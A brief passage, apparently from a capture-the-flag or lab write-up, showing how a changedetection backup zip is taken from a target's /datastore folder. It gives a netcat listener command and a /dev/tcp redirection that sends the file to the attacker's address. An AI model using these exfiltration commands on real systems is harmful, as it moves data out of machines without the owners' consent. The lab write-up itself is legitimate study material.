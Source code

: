 from /datastore folder:

![](attachment/e679c795e0880e4f4b276f1c8448dad5.png)



```shell
nc -l -p 9999 -q 1 > changedetection-backup-20240830194841.zip
-------
cat changedetection-backup-20240830194841.zip > /dev/tcp/10.10.14.71/9999  
```
